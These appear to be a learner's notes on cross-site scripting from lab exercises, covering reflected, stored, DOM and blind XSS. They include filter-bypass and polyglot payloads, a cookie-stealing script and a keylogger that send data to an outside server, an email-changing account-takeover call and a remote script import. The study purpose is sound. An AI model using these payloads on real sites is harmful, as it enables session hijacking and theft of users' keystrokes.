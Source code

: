 
Garrs favorite:
`"><img src=a onerror=alert(34)>`
![[Images/Pasted image 20240723202901.png]]
![[Images/Pasted image 20240723202943.png]]
How does it handle different characters. Is it stripping event handlers but keeping the img tag? Then you could try a simple script-alert-script payload.

---

`<script>alert("Succ3ssful XSS")</script>`
check where the text is reflected, in a tag?, in a string? end those:
`"><script>alert("Succ3ssful XSS")</script>`
in script code already?
`';alert('THM');//`

"script" word removed:
`<sscriptcript>alert('THM');</sscriptcript>`

<> filtered in IMG tag
`/images/cat.jpg" onload="alert('THM')`

Steal cookie - send to your own server to be logged
`<script>fetch('https://myserver.com/steal?cookie=' + btoa(document.cookie));</script>`
`</textarea><script>fetch('http://10.18.21.236:9001?cookie=' + btoa(document.cookie) );</script>`

Key logger - send to your own server to be logged
`<script>document.onkeypress = function(e) { fetch('https://myserver.com/log?key=' + btoa(e.key) );}</script>`

Using the web pages specific functions
`<script>user.changeEmail('attacker@hacker.thm');</script>`

"Polyglot"
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

**Reflected XSS** - our payload reflected/seen on the webpage/it's code
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

![[24e50d95cecfc3783bd1a3a4fecbf310.png]]

**Stored XSS** - our payload is stored on the website (database...)
test every possible point of entry where it seems data is stored
- Comments on a blog
- User profile information
- Website Listings
Test by manually entering data for example instead of the pages drop down menu with numbers..

**DOM Based XSS** - JavaScript execution happens directly in the browser no new pages loaded or data submitted to backend. Execution occurs when the website JavaScript code acts on input or user interaction.
- look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters
When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**

**Blind XSS** Stored but you can't see it
- Unfiltered messages sent
- ensure your payload has a call back (usually an HTTP request)




---

cross site scripting

insert javascript code into a website

stored or not, reflected or not



try html injection first - `"><u>test123"` /nahamsec

then try an event handler `<u/onmouseover=alert(1)>test123`
`<img src=x onerror=alert(1)>`

confirm

get your code in here `import('http://site.com/1.js')`

can put xss payload or blind xss payload

---

go through a web page, clicking everything to check what pages exist and what parameters exist, what fields exist..

#### Parameters
try payloads for parameters
url/?page_id=2test123 - is test123 on the page?
view page source or inspect, search for test123
	might end up in html, might be in html...
	if you're in a script tag, just close it: `"></script>test123`
	or for example `?param=2test123"></script>test123<img%20src=x%20onerror=alert();//>`
	or simply `?param=2%27;+alert()//test123`
	check for other empty variables in javascript code and try them as parameters

#### Fields
blog title: Welcome`"><U>test123`
colors for style
even if it is sanitized when entering into the form we can modify the request by capturing it with burp...
if we add a `</style>test123<script>alert()</script>`




